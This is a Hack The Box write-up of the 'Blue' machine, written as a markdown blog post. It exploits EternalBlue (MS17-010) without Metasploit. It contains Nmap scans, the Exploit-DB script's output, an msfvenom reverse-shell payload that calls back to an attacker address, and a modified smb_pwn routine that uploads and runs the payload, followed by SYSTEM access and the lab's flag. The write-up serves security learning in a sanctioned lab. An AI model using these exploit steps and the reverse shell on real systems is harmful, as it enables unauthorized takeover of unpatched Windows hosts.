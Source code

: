 ```yaml
---
title: Blue Walkthrough:Exploiting CVE-2017-0144
date: 2024-10-08 09:00:00 +0530
categories:
- Capture the Flags
- Windows
tags:
- HTB
- smb
- standalone
description: Walkthrough of HTB's Blue machine without using Metasploit
---
```

# Blue

*Blue, while possibly the simplest machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.*


### Recon

Started the recon with an Nmap scan:

```bash
sudo nmap -T4 -sS -n -Pn --disable-arp-ping --stats-every=5s -F 10.10.10.40
```

- **-T4**: Sets the timing template for faster scanning.
- **-sS**: Performs a TCP SYN scan.
- **-n**: Disables DNS resolution.
- **-Pn**: Skips host discovery (pinging).
- **-F**: Scans the top TCP ports.

The initial scan reveals several open ports, including:

- 135/tcp open  msrpc
- 139/tcp open  netbios-ssn
- 445/tcp open  microsoft-ds (Samba)
- Multiple high-numbered ports (49152-49157) open for Microsoft services.

Next, I performed a more detailed scan to identify the operating system and versions of the services:

```bash
sudo nmap -T4 -A -Pn -n --disable-arp-ping 10.10.10.40 --source-port 53 -p 135,139,445,49152,49153,49154,49155,49156,49157

sudo nmap -v --script vuln,exploit -p 135,139,445 10.10.10.40
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

This identified the target as **Windows 7 Professional 7601 Service Pack 1**, making it susceptible to the EternalBlue exploit (MS17-010).

### Exploitation:

MS17-010 is a critical vulnerability in SMBv1 (CVE-2017-0144). Exploiting it allows remote code execution with SYSTEM-level privileges.

#### Preparing the Exploit:

First, I copied the exploit script from the `exploitdb` directory to my working directory:

```bash
(kali㉿kali)-[~/Red_Team/HTB/Blue]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/42315.py ./4315.py
```

The exploit is written in Python 2.7, and when I tried to run it, syntax issues arose due to the differences between Python 2.7 and Python 3. To resolve this, I created a Python 2.7 virtual environment:

1. **Download pip** for Python 2.7:

    ```bash
    wget -c https://bootstrap.pypa.io/pip/2.7/get-pip.py
    python2.7 get-pip.py
    ```

2. **Verify the pip version** and set up the virtual environment:

    ```bash
    > python2 -m pip --version
    pip 20.3.4 from /home/kali/.local/lib/python2.7/site-packages/pip (python 2.7)
    > python2 -m pip install -U pip setuptools
    > python2 -m pip install virtualenv   
    > python2.7 -m virtualenv myenv
    ```

3. **Activate the virtual environment** and install the required dependencies, like `impacket`, which is essential for running the exploit smoothly.

4. **Downloading Dependencies** - Found a note of this missing library in the exploit,

    ```bash
    EDB Note: mysmb.py can be found here ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py

    > wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
    ```

#### Running the Exploit:

With the environment set up, I executed the modified script using Python 2.7:

```bash
──(myenv)─(kali㉿kali)-[~]
└─$ python Red_Team/HTB/Blue/4315.py 10.10.10.40 netlogon
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80041f95e0
SESSION: 0xfffff8a009713aa0
FLINK: 0xfffff8a00a10a088
InParam: 0xfffff8a00a10415c
MID: 0x2103
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```

The output indicated a successful exploitation process.

### Knowledge Share:

SMB servers use *named pipes* to communicate with various services for authentication:

- **Domain-joined SMB Servers** use the *Netlogon* service to communicate with the domain controller for authentication.
- **Standalone SMB Servers** interact with the local *SAM (Security Account Manager)* database via the `\samr` pipe to verify credentials.
- The **Local Security Authority (LSA)** manages security policies and access controls through its communication with the SMB server.

For testing purposes, running the command with random "username" and "password" can help in exploring these interactions during an exploit attempt.

### Custom Exploit:

For a deeper understanding, I modified the EternalBlue exploit script to upload a custom reverse shell and execute it:

1. **Creating the executable payload** using `msfvenom`:

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=8080 -f exe > Benign.exe
    ```

2. **Modifying the script** to transfer and execute the payload:

    ```python
    def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        print('Creating file C:\\Benign.exe on the target')
        smb_send_file(smbConn, '/home/kali/Red_Team/HTB/Blue/Benign.exe', 'C', '/Benign.exe')
        service_exec(conn, r'cmd /c C:\\Benign.exe')
    ```

3. **Running the script** gave me a reverse shell back to my machine, maintaining SYSTEM access.

### Post-Exploitation:

After successful exploitation, I had SYSTEM-level access:

```bash
C:\Windows\system32> whoami
nt authority\system
```

This means complete control over the machine, including access to any files. Retrieving the flag:

```bash
C:\Users\Administrator\Desktop> type root.txt
734ac76b26b651a6658354572badeb63
```

### Conclusion:

The Blue machine on Hack The Box is a great example of how a seemingly outdated vulnerability like EternalBlue can still pose a significant risk if left unpatched. Proper patch management and disabling legacy protocols like SMBv1 are critical for maintaining secure networks.

## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References
- [Exploit-DB: MS17-010 EternalBlue Exploit](https://www.exploit-db.com/exploits/42315)
---

